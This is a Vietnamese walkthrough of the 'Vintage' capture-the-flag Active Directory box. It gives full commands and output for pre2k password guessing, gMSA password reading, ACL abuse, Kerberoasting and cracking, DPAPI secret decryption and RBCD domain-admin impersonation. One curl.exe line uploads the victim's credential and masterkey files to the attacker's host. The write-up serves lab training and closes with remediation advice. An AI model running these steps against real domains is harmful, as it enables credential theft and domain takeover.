



> Vintage là một box Windows/AD assumed breach: ta bắt đầu với một bộ credential thấp quyền có sẵn.
> Cả box gần như không phải bắn exploit, mà chỉ xoay quanh cấu hình sai của AD: tài khoản pre2k, gMSA,
> chuỗi ACL, một tài khoản dịch vụ bị vô hiệu hóa, DPAPI, và cuối cùng là Resource-Based Constrained Delegation.

## Tóm tắt đường tấn công

1. Domain chặn NTLM, buộc phải xác thực bằng Kerberos.
2. `FS01$` là tài khoản máy pre2k -> mật khẩu đoán được bằng chính tên máy.
3. `FS01$` thuộc `Domain Computers` nên đọc được mật khẩu `gMSA01$`.
4. `gMSA01$` thuộc `SERVICEMANAGERS` có genericAll lên `svc_sql`.
5. Bật lại `svc_sql` đang bị vô hiệu hóa, thực hiện targeted Kerberoasting và crack ra mật khẩu.
6. Mật khẩu được dùng lại cho `c.neri` -> WinRM -> `user.txt`.
7. DPAPI của `c.neri` chứa credential của `c.neri_adm`.
8. `c.neri` điều khiển nhóm `DELEGATIONADMINS`, mà nhóm này được DC tin qua RBCD -> thêm `FS01$` vào nhóm -> s4u mạo danh `l.bianchi_adm` -> `root.txt`.

## 1. Enumeration

Nmap cho thấy một DC điển hình. Điểm đáng chú ý là khi thử bind LDAP bằng creds ban đầu:

```
  nxc ldap DC01 -u p.rosa -p Rosaisbest123 -M whoami 
LDAP        10.129.231.205  389    DC01             [*] None (name:DC01) (domain:vintage.htb) (signing:None) (channel binding:No TLS cert) (NTLM:False)
LDAP        10.129.231.205  389    DC01             [-] vintage.htb\p.rosa:Rosaisbest123 STATUS_NOT_SUPPORTED
```

`STATUS_NOT_SUPPORTED` ở đây không phải sai mật khẩu mà là NTLM đã bị tắt trên domain (để ý `NTLM:False` trong output). Từ đây mọi thao tác đều phải đi qua Kerberos: Lấy TGT rồi dùng ccache.

```
  getTGT.py vintage.htb/p.rosa:Rosaisbest123
Impacket v0.13.1 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in p.rosa.ccache
  export KRB5CCNAME=p.rosa.ccache 
  nxc ldap DC01 -k --use-kcache -M whoami
LDAP        DC01            389    DC01             [*] None (name:DC01) (domain:VINTAGE.HTB) (signing:None) (channel binding:No TLS cert) (NTLM:False)
LDAP        DC01            389    DC01             [+] VINTAGE.HTB\p.rosa from ccache 
WHOAMI      DC01            389    DC01             Name: P.Rosa
WHOAMI      DC01            389    DC01             sAMAccountName: P.Rosa
WHOAMI      DC01            389    DC01             Enabled: Yes
WHOAMI      DC01            389    DC01             Password Never Expires: Yes
WHOAMI      DC01            389    DC01             Last logon: 2026-11-08 02:40:31 UTC
WHOAMI      DC01            389    DC01             Password Last Set: 2024-11-06 12:27:16 UTC
WHOAMI      DC01            389    DC01             Bad Password Count: 0
WHOAMI      DC01            389    DC01             Distinguished Name: CN=P.Rosa,CN=Users,DC=vintage,DC=htb
WHOAMI      DC01            389    DC01             User SID: S-1-5-21-4024337825-2033394866-2055507597-1116
```

Liệt kê tài khoản máy, có ba máy: `DC01$`, `gMSA01$`, `FS01$`. 

```
  nxc ldap DC01 -k --use-kcache --computers
LDAP        DC01            389    DC01             [*] None (name:DC01) (domain:VINTAGE.HTB) (signing:None) (channel binding:No TLS cert) (NTLM:False)
LDAP        DC01            389    DC01             [+] VINTAGE.HTB\p.rosa from ccache 
LDAP        DC01            389    DC01             [*] Total records returned: 3
LDAP        DC01            389    DC01             DC01$
LDAP        DC01            389    DC01             gMSA01$
LDAP        DC01            389    DC01             FS01$
```

Nhiều khả năng FS01$ là tài khoản pre2k nên mình thử dùng module pre2k của NetExec, không hiểu sao nó không hốt được `FS01$` nhưng thử tay thì lại được.


```
  nxc ldap DC01 -k --use-kcache -M pre2k
LDAP        DC01            389    DC01             [*] None (name:DC01) (domain:VINTAGE.HTB) (signing:None) (channel binding:No TLS cert) (NTLM:False)
LDAP        DC01            389    DC01             [+] VINTAGE.HTB\p.rosa from ccache
  getTGT.py 'vintage.htb/fs01$:fs01'
Impacket v0.13.1 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in fs01$.ccache
```

> Không bao giờ tin tưởng 100% vào tool nhé.

## 3. Đọc mật khẩu `gMSA01$`

`FS01$` nằm trong `Domain Computers` và `gMSA01$` cho phép `Domain Computers` đọc mật khẩu của nó (`PrincipalsAllowedToReadPassword: Domain Computers`).

```
  export KRB5CCNAME=fs01\$.ccache 
  nxc ldap DC01 -k --use-kcache --gmsa
LDAP        DC01            389    DC01             [*] None (name:DC01) (domain:VINTAGE.HTB) (signing:None) (channel binding:No TLS cert) (NTLM:False)
LDAP        DC01            389    DC01             [+] VINTAGE.HTB\fs01$ from ccache 
LDAP        DC01            389    DC01             [*] Getting GMSA Passwords
LDAP        DC01            389    DC01             Account: gMSA01$              NTLM: f44e1eceaa7a24c32e8a54d62d032f96     PrincipalsAllowedToReadPassword: Domain Computers
LDAP        DC01            389    DC01             Account: gMSA01$              aes128-cts-hmac-sha1-96: cfbb48a9b61109a3c04bcae5e26c8bfe
LDAP        DC01            389    DC01             Account: gMSA01$              aes256-cts-hmac-sha1-96: d99918ccf826255c8d42338d48fbaf97fd55fb20bd39ff639f5d2cbfd7ef8fc6
```

## 4. Chuỗi ACL tới `svc_sql`



BloodHound cho thấy `gMSA01$` có quyền genericWrite lên nhóm `SERVICEMANAGERS`, quyền này thường bao gồm quyền thêm bớt thành viên trong nhóm, và nhóm này có genericAll lên các tài khoản dịch vụ trong OU `Pre-Migration`.

Trong 3 tài khoản dịch vụ thì `svc_sql` gắn với SQL thường là con mồi béo bở hơn cả.


Thử thêm mình vào `SERVICEMANAGERS` và thành công.

```
  getTGT.py 'vintage.htb/gmsa01$:fs01' -hashes :f44e1eceaa7a24c32e8a54d62d032f96
Impacket v0.13.1 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in gmsa01$.ccache
  export KRB5CCNAME=gmsa01\$.ccache
  bloodyad -k -d vintage.htb -H DC01.vintage.htb add groupMember SERVICEMANAGERS 'gmsa01$'
[+] gmsa01$ added to SERVICEMANAGERS
```

Thêm genericAll và đổi mật khẩu `svc_sql`


```
  getTGT.py 'vintage.htb/gmsa01$:fs01' -hashes :f44e1eceaa7a24c32e8a54d62d032f96
Impacket v0.13.1 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in gmsa01$.ccache
  bloodyad -k -d vintage.htb -H DC01.vintage.htb add genericAll svc_sql 'gmsa01$'
[+] gmsa01$ has now GenericAll on svc_sql
  bloodyad -k -d vintage.htb -H DC01.vintage.htb set password svc_sql Password123
[+] Password changed successfully!
```

> Phải reset ccache để Kerberos cập nhật token chứa đặc quyền mới.

## 5. Bật lại `svc_sql` và targeted Kerberoasting


Xin TGT cho `svc_sql` thì gặp `KDC_ERR_CLIENT_REVOKED`:


```
  getTGT.py vintage.htb/svc_sql:Password123
Impacket v0.13.1 - Copyright Fortra, LLC and its affiliated companies 

Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
```

Nghĩa là tài khoản đang bị vô hiệu hóa (cờ UAC của nó có tên `ACCOUNTDISABLE`). Vì đang có genericAll nên ta gỡ nó luôn:

```
  bloodyad -k -d vintage.htb -H DC01.vintage.htb remove uac svc_sql -f ACCOUNTDISABLE
[+] ['ACCOUNTDISABLE'] property flags removed from svc_sql's userAccountControl
```

`svc_sql` chưa có SPN nên không Kerberoast trực tiếp được. Ta tự gắn SPN rồi roast:

```
  bloodyad -k -d vintage.htb -H DC01.vintage.htb set object svc_sql servicePrincipalName -v mssqlsvc/DC01
[+] svc_sql's servicePrincipalName has been updated
  nxc ldap DC01 -k --use-kcache --kerberoasting kerberoast.txt
LDAP        DC01            389    DC01             [*] None (name:DC01) (domain:VINTAGE.HTB) (signing:None) (channel binding:No TLS cert) (NTLM:False)
LDAP        DC01            389    DC01             [+] VINTAGE.HTB\gmsa01$ from ccache 
LDAP        DC01            389    DC01             [*] Skipping disabled account: krbtgt
LDAP        DC01            389    DC01             [*] Total of records returned 1
LDAP        DC01            389    DC01             [*] sAMAccountName: svc_sql, memberOf: CN=ServiceAccounts,OU=Pre-Migration,DC=vintage,DC=htb, pwdLastSet: 2026-11-08 11:52:04.928393, lastLogon: <never>
LDAP        DC01            389    DC01             $krb5tgs$23$*svc_sql$VINTAGE.HTB$vintage.htb\svc_sql*$8af357388bdad83b8b5e67373ab16b4e$924d317196d6446b9e85178d61ee62ca864d50b42f1241eef7cf600bc4aecbb8264a3a5ec98a7747ba48df1e19575be936882aaf3522b2f637e77c5cbf9305fa4c1c39ca25506468cf04ac0f5c2bda5b592867b6e42c54f3f316cd575094cc8ddbc772a1d76b2fcc3b35cbc794b4c379523a169ceac0ad59c618d569b2477d94fdd8918dd00918a3239c1979165cefa6bf7bf6d40bdc07aa079ffa8c86e780578fbe1f123196c323371164b4268a0ac7c66ea478928a54819771cf54155464f99bb2f8cf873b204ab2723f5405fa7281b456d0deb89c7d0eaa31b3d623fded8e896bcc03894c60f24c13c0970ad5e4d7393c108f67d8085171fb986124b35f3aca5018912b837ae0045947347dda47f1ac2ead33500b26614df327a8709a2715ccda9ba203b89b63fd2801e773a2303cefef5505ebd6d97575eca7df982ebd96ba9e870f94a1c9a5c5d03b2c9a15988f76ee059b296a366c4c978ecad55262047b8fc96ba18721c7f20107544859014fe806c2913aa05e1888403045bd7cf93c77b369af2a152ac3b97ec95f7a26b673d603cae3a7380d74d864aef7c3ea175d9d54aeb85130a021f81d5917e29cd8087ef8a80c2eb8760d4b421cc8d5982ce1c69a9210a78efd8484ca76998b1ae945d507c8e989f6281b6f14d417ee325ba0aa6774ace308fe3111110185e293faaea34f73bad4de1853dd8ae0fbdee7d876e5b486420f58ddbefa84a5a96f980a2bf25e27477d328b9f21862b7474c476e0de05afdbdd0ce03d4f48c2950c9984f1b881383f9e5fbf4cf9299d9f5cd3426389687c489446f7e5282c23daf56b4056b9c55331436b89aeb2d144ebb4ff7f03651958f5352741dce25d36a81f3ad28ac10eee4a6884e806d887e2d846999b95667e819870872eeeb02358af454a1e1451f475eb1b2e1b62c797d2cbdce58334f5fd549ae1083a0f48d74c0a274b26c2f16fcbf7e0c8a9e0114944d8f20af1bcbe49a98be3ccc16ac994b4cf8a64c185fef0a952fc28b4d78183ddf51db8284257fb809be69b908623ea1d9bb976d9657566cfd1ab7dfae7f1bde715545b7b9cad984eda55f8b39f8e864a77a2eec9e1b89f817018a01c782f52132dd9437b0bb2fa7e7eaab1c23b542ed1600a3c5211a1412a8c027d2ba28b5bfe4e8797447094137a818d5591f4a3dcd0ceae35e41fcff762e4e234ae6281fc6970cbed42136ad9635524c0f5c0e7a79bcfd8f19980f419876b8ac77b43b606461cde83dbef84833c384107a3cd38c84c78018a9fb76828ee3dd32f6c762b0d283363e9e1abb3cf6c014ff734ea362cda191f3205ed9644d2a37ef595b4ba1abeacb73847480743d37997e69a01ba4d7e46f0303a33dbe8b000b89304d7761c06c07f171c8bbd5cc96893dea66a187cad7ae894ac2e214d9de53c020163577aa8dd1f3684e8483d617c466b09a60d431a3e25b7d6d5f11f68
```

Lưu vào file và crack bằng Hashcat với `rockyou.txt` ra được mật khẩu: `Zer0the0ne`

```
  nano hash
  hashcat hash /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt -a 0
<SNIP>
$krb5tgs$23$*svc_sql$VINTAGE.HTB$vintage.htb\svc_sql*$8af357388bdad83b8b5e67373ab16b4e$924d317196d6446b9e85178d61ee62ca864d50b42f1241eef7cf600bc4aecbb8264a3a5ec98a7747ba48df1e19575be936882aaf3522b2f637e77c5cbf9305fa4c1c39ca25506468cf04ac0f5c2bda5b592867b6e42c54f3f316cd575094cc8ddbc772a1d76b2fcc3b35cbc794b4c379523a169ceac0ad59c618d569b2477d94fdd8918dd00918a3239c1979165cefa6bf7bf6d40bdc07aa079ffa8c86e780578fbe1f123196c323371164b4268a0ac7c66ea478928a54819771cf54155464f99bb2f8cf873b204ab2723f5405fa7281b456d0deb89c7d0eaa31b3d623fded8e896bcc03894c60f24c13c0970ad5e4d7393c108f67d8085171fb986124b35f3aca5018912b837ae0045947347dda47f1ac2ead33500b26614df327a8709a2715ccda9ba203b89b63fd2801e773a2303cefef5505ebd6d97575eca7df982ebd96ba9e870f94a1c9a5c5d03b2c9a15988f76ee059b296a366c4c978ecad55262047b8fc96ba18721c7f20107544859014fe806c2913aa05e1888403045bd7cf93c77b369af2a152ac3b97ec95f7a26b673d603cae3a7380d74d864aef7c3ea175d9d54aeb85130a021f81d5917e29cd8087ef8a80c2eb8760d4b421cc8d5982ce1c69a9210a78efd8484ca76998b1ae945d507c8e989f6281b6f14d417ee325ba0aa6774ace308fe3111110185e293faaea34f73bad4de1853dd8ae0fbdee7d876e5b486420f58ddbefa84a5a96f980a2bf25e27477d328b9f21862b7474c476e0de05afdbdd0ce03d4f48c2950c9984f1b881383f9e5fbf4cf9299d9f5cd3426389687c489446f7e5282c23daf56b4056b9c55331436b89aeb2d144ebb4ff7f03651958f5352741dce25d36a81f3ad28ac10eee4a6884e806d887e2d846999b95667e819870872eeeb02358af454a1e1451f475eb1b2e1b62c797d2cbdce58334f5fd549ae1083a0f48d74c0a274b26c2f16fcbf7e0c8a9e0114944d8f20af1bcbe49a98be3ccc16ac994b4cf8a64c185fef0a952fc28b4d78183ddf51db8284257fb809be69b908623ea1d9bb976d9657566cfd1ab7dfae7f1bde715545b7b9cad984eda55f8b39f8e864a77a2eec9e1b89f817018a01c782f52132dd9437b0bb2fa7e7eaab1c23b542ed1600a3c5211a1412a8c027d2ba28b5bfe4e8797447094137a818d5591f4a3dcd0ceae35e41fcff762e4e234ae6281fc6970cbed42136ad9635524c0f5c0e7a79bcfd8f19980f419876b8ac77b43b606461cde83dbef84833c384107a3cd38c84c78018a9fb76828ee3dd32f6c762b0d283363e9e1abb3cf6c014ff734ea362cda191f3205ed9644d2a37ef595b4ba1abeacb73847480743d37997e69a01ba4d7e46f0303a33dbe8b000b89304d7761c06c07f171c8bbd5cc96893dea66a187cad7ae894ac2e214d9de53c020163577aa8dd1f3684e8483d617c466b09a60d431a3e25b7d6d5f11f68:Zer0the0ne
<SNIP>
```

## 6. Password Reuse

`Zer0the0ne` được dùng lại cho `c.neri` (Domain chỉ có vài user nên mình rải kèm xin vé luôn):


```
  getTGT.py vintage.htb/c.neri:Zer0the0ne
Impacket v0.13.1 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in c.neri.ccache
```

Cậu này trong BloodHound cho thấy thuộc nhóm `REMOTE MANAGEMENT USERS` nên ta WinRM.




```
  export KRB5CCNAME=c.neri.ccache
  sudo nano /etc/krb5.conf 
[sudo] password for aeverie: 
  evil-winrm -i DC01 -u c.neri -p Zer0the0ne -r vintage.htb
                                        
Evil-WinRM shell v4.1
                                        
Warning: User is not needed for Kerberos auth. Ticket will be used
                                        
Warning: Password is not needed for Kerberos auth. Ticket will be used
                                        
Info: Establishing connection to remote endpoint
                                        
Info: Connection successful
*Evil-WinRM* PS C:\Users\C.Neri\Documents>
```

> Phải sửa file `/etc/krb5.conf` trên máy tấn công nếu muốn xác thực bằng vé với WinRM nhé.

Tìm `user.txt` và đọc nó.

```powershell
*Evil-WinRM* PS C:\Users\C.Neri\Documents> ls ..\Desktop


    Directory: C:\Users\C.Neri\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----          6/7/2024   1:17 PM           2312 Microsoft Edge.lnk
-ar---         11/8/2026   5:30 AM             34 user.txt


*Evil-WinRM* PS C:\Users\C.Neri\Documents> type ..\Desktop\user.txt
7adda680eae002419a44ff30cebe2a9b
```

## 7. DPAPI

Trong AppData của `c.neri` có một credential blob đã mã hóa bằng masterkey DPAPI. DPAPI dùng mật khẩu người dùng để bảo vệ bí mật (nằm trong `Credentials`, `Vault`...), nên khi biết mật khẩu thì ta giải được.

```powershell
*Evil-WinRM* PS C:\Users\C.Neri\Documents> ls ..\AppData\Roaming\Microsoft


    Directory: C:\Users\C.Neri\AppData\Roaming\Microsoft


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d---s-          6/7/2024   5:08 PM                Credentials
d---s-          6/7/2024   1:17 PM                Crypto
d-----          6/7/2024   1:17 PM                Internet Explorer
d-----          6/7/2024   1:17 PM                Network
d---s-          6/7/2024   1:17 PM                Protect
d-----          6/7/2024   3:46 PM                Spelling
d---s-          6/7/2024   1:17 PM                SystemCertificates
d-----          6/7/2024   1:17 PM                Vault
d-----          6/7/2024   1:53 PM                Windows


*Evil-WinRM* PS C:\Users\C.Neri\Documents> ls ..\AppData\Roaming\Microsoft\Credentials
*Evil-WinRM* PS C:\Users\C.Neri\Documents> ls ..\AppData\Roaming\Microsoft\Credentials -hidden


    Directory: C:\Users\C.Neri\AppData\Roaming\Microsoft\Credentials


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a-hs-          6/7/2024   5:08 PM            430 C4BB96844A5C9DD45D5B6A9859252BA6
```

Tìm masterkey trong `Protect`:

```powershell
*Evil-WinRM* PS C:\Users\C.Neri\Documents> ls ..\AppData\Roaming\Microsoft\Protect


    Directory: C:\Users\C.Neri\AppData\Roaming\Microsoft\Protect


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d---s-          6/7/2024   1:17 PM                S-1-5-21-4024337825-2033394866-2055507597-1115


*Evil-WinRM* PS C:\Users\C.Neri\Documents> ls ..\AppData\Roaming\Microsoft\Protect\S-1-5-21-4024337825-2033394866-2055507597-1115
*Evil-WinRM* PS C:\Users\C.Neri\Documents> ls ..\AppData\Roaming\Microsoft\Protect\S-1-5-21-4024337825-2033394866-2055507597-1115 -hidden


    Directory: C:\Users\C.Neri\AppData\Roaming\Microsoft\Protect\S-1-5-21-4024337825-2033394866-2055507597-1115


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a-hs-          6/7/2024   1:17 PM            740 4dbf04d8-529b-4b4c-b4ae-8e875e4fe847
-a-hs-          6/7/2024   1:17 PM            740 99cf41a3-a552-4cf7-a8d7-aca2d6f7339b
-a-hs-          6/7/2024   1:17 PM            904 BK-VINTAGE
-a-hs-          6/7/2024   1:17 PM             24 Preferred
```

Tải chúng về máy:


```powershell
*Evil-WinRM* PS C:\Users\C.Neri\Documents> curl.exe 10.10.15.86:8000/upload -F "files=@..\AppData\Roaming\Microsoft\Credentials\C4BB96844A5C9DD45D5B6A9859252BA6" -F "files=@..\AppData\Roaming\Microsoft\Protect\S-1-5-21-4024337825-2033394866-2055507597-1115\4dbf04d8-529b-4b4c-b4ae-8e875e4fe847" -F "files=@..\AppData\Roaming\Microsoft\Protect\S-1-5-21-4024337825-2033394866-2055507597-1115\99cf41a3-a552-4cf7-a8d7-aca2d6f7339b"
curl.exe :   % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
    + CategoryInfo          : NotSpecified: (  % Total    % ...  Time  Current:String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError
                                 Dload  Upload   Total   Spent    Left  Speed  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0100  2525    0     0  100  2525      0  11398 --:--:-- --:--:-- --:--:-- 11425
```

Giải mã masterkey:

```
  dpapi.py masterkey -file 99cf41a3-a552-4cf7-a8d7-aca2d6f7339b -sid S-1-5-21-4024337825-2033394866-2055507597-1115 -password Zer0the0ne
Impacket v0.13.1 - Copyright Fortra, LLC and its affiliated companies 

[MASTERKEYFILE]
Version     :        2 (2)
Guid        : 99cf41a3-a552-4cf7-a8d7-aca2d6f7339b
Flags       :        0 (0)
Policy      :        0 (0)
MasterKeyLen: 00000088 (136)
BackupKeyLen: 00000068 (104)
CredHistLen : 00000000 (0)
DomainKeyLen: 00000174 (372)

Decrypted key with User Key (MD4 protected)
Decrypted key: 0xf8901b2125dd10209da9f66562df2e68e89a48cd0278b48a37f510df01418e68b283c61707f3935662443d81c0d352f1bc8055523bf65b2d763191ecd44e525a
```

Giải mã creds, nhặt được tài khoản `c.neri_adm`


```
  dpapi.py credential -file C4BB96844A5C9DD45D5B6A9859252BA6 -key 0xf8901b2125dd10209da9f66562df2e68e89a48cd0278b48a37f510df01418e68b283c61707f3935662443d81c0d352f1bc8055523bf65b2d763191ecd44e525a
Impacket v0.13.1 - Copyright Fortra, LLC and its affiliated companies 

[CREDENTIAL]
LastWritten : 2024-06-07 15:08:23+00:00
Flags       : 0x00000030 (CRED_FLAGS_REQUIRE_CONFIRMATION|CRED_FLAGS_WILDCARD_MATCH)
Persist     : 0x00000003 (CRED_PERSIST_ENTERPRISE)
Type        : 0x00000001 (CRED_TYPE_GENERIC)
Target      : LegacyGeneric:target=admin_acc
Description : 
Unknown     : 
Username    : vintage\c.neri_adm
Unknown     : Uncr4ck4bl3P4ssW0rd0312
```

## 8. RBCD

`c.neri_adm` có quyền ghi lên nhóm `DELEGATEDADMINS`. Đây là Resource-Based Constrained Delegation (RBCD): thuộc tính `msDS-AllowedToActOnBehalfOfOtherIdentity` trên chính `DC01` tin tưởng nhóm `DELEGATEDADMINS`. Tức là bất kỳ ai là thành viên nhóm này đều có thể mạo danh người dùng khác để truy cập dịch vụ trên `DC01`.

Khác với constrained delegation cổ điển (cấu hình nằm trên tài khoản đi mạo danh), RBCD đặt cấu hình trên tài khoản bị mạo danh - ở đây là DC. Ta đưa `FS01$` vào `DELEGATEDADMINS`, rồi dùng S4U2self + S4U2proxy để tự cấp một vé `cifs/DC01` mạo danh một domain admin (`l.bianchi_adm`):



> Mạo danh một tài khoản admin không có sẵn như `l.bianchi` thường có xác suất thành công cao hơn `Administrator` vì `Administrator` mặc định mang cờ `NOT_DELEGATED` trong UAC.

Thêm `FS01$` vào nhóm:

```
  export KRB5CCNAME=c.neri_adm.ccache
  bloodyad -k -d vintage.htb -H DC01.vintage.htb add groupMember DELEGATEDADMINS 'fs01$'
[+] fs01$ added to DELEGATEDADMINS
```

Xin lại vé và thực hiện s4u:


```
  getTGT.py 'vintage.htb/fs01$:fs01'
Impacket v0.13.1 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in fs01$.ccache
  export KRB5CCNAME=fs01\$.ccache 
  getST.py 'vintage.htb/fs01$' -k -no-pass -spn cifs/DC01.vintage.htb -impersonate l.bianchi_adm
Impacket v0.13.1 - Copyright Fortra, LLC and its affiliated companies 

[*] Impersonating l.bianchi_adm
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in l.bianchi_adm@cifs_DC01.vintage.htb@VINTAGE.HTB.ccache
```

Đọc `root.txt`:

```
  export KRB5CCNAME=l.bianchi_adm@cifs_DC01.vintage.htb@VINTAGE.HTB.ccache 
  nxc smb DC01.vintage.htb -k --use-kcache -x "type C:\Users\Administrator\Desktop\root.txt"
SMB         DC01.vintage.htb 445    DC01             [*]  x64 (name:DC01) (domain:vintage.htb) (signing:True) (SMBv1:False) (NTLM:False) (DC:True)
SMB         DC01.vintage.htb 445    DC01             [+] vintage.htb\l.bianchi_adm from ccache (Pwn3d!)
SMB         DC01.vintage.htb 445    DC01             [+] Executed command via wmiexec
SMB         DC01.vintage.htb 445    DC01             82cdda4766586a29f661a1eae7996163
```

## Khắc phục

- Đổi mật khẩu khởi tạo cho mọi tài khoản máy pre2k, hoặc xóa nếu không dùng.
- Siết `PrincipalsAllowedToReadPassword` của gMSA về đúng nhóm cần, không để `Domain Computers`.
- Rà soát các ACL thừa: genericAll/genericWrite của nhóm thường lên tài khoản dịch vụ là đường leo thang trực tiếp.
- Không để tài khoản dịch vụ dùng mật khẩu yếu/đoán được; cân nhắc gMSA/dMSA cho chính các tài khoản này.
- Không tái sử dụng mật khẩu giữa tài khoản dịch vụ và tài khoản người dùng.
- Hạn chế Delegation; audit kỹ tài khoản nào được delegate tới dịch vụ nhạy cảm như `cifs` trên DC.
